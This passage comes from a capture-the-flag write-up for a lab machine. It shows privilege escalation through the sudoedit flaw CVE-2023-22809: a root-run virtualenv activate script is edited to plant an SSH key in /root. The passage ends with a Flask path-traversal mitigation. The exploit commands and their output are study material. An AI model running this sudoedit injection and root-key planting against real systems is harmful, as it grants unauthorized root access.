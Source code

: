 I used the database credentials to connect to MySQL again. The database was similar to the previous one. It did not contain anything I could use.

I could modify both set of credentials, but this did not seem to be very useful. I found a  [vulnerability in sudoedit](https://www.linkedin.com/pulse/exploiting-sudoedit-security-flaw-cve-2023-22809-/) that allowed editing arbitrary files. I tried to edit various files, but dev_admin was not allowed to edit them.

I saw that they could modify the activate file that was included in the test script. I tried to modify it and add some code to see how it would behave.

I ran this command:

```bash
EDITOR='nano -- /app/venv/bin/activate' sudoedit -u dev_admin /app/config_test.json
```

I added a simple touch command at the beginning of the file to create a file in '/tmp'. After a few seconds, the file was created, and it belonged to root.

```bash
edwards@agile:~$ ls -lt /tmp/
total 36
-rw-r--r-- 1 root   root      0 Apr 16 16:22 pwn
```

Since the script ran as root, I copied my SSH public key in a file in edwards' home folder. Then I modified the script to copy it in root's home by adding these lines to the 'activate' script.

```bash
mkdir /root/.ssh
chmod 700 /root/.ssh
cp /home/edwards/authorized_keys /root/.ssh/
chmod 600 /root/.ssh/authorized_keys
```

I waited a minute to make sure the cron ran. And then tried connecting as root with my SSH key.

```bash
$ ssh root@target
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-60-generic x86_64)

...

root@agile:~# cat root.txt
REDACTED
```

## Mitigation

The first problem with the application was in the CSV download. There was no protection against reading any file on the server. A simple fix would be to make sure that the file was in '/tmp' folder.

```python
def download():
    r = flask.request
    fn = r.args.get('fn')

    # Validate the requested file is in /tmp
    full_name = os.path.join('/tmp/', fn)
    real = os.path.realpath(full_name)
    if not real.startswith('/tmp/'):
        flask.abort(500)

    with open(real, 'rb') as f:
        data = f.read()
    resp = flask.make_response(data)
    resp.headers['Content-Disposition'] = 'attachment; filename=superpass_export.csv'
    resp.mimetype = 'text/csv'
    return resp
```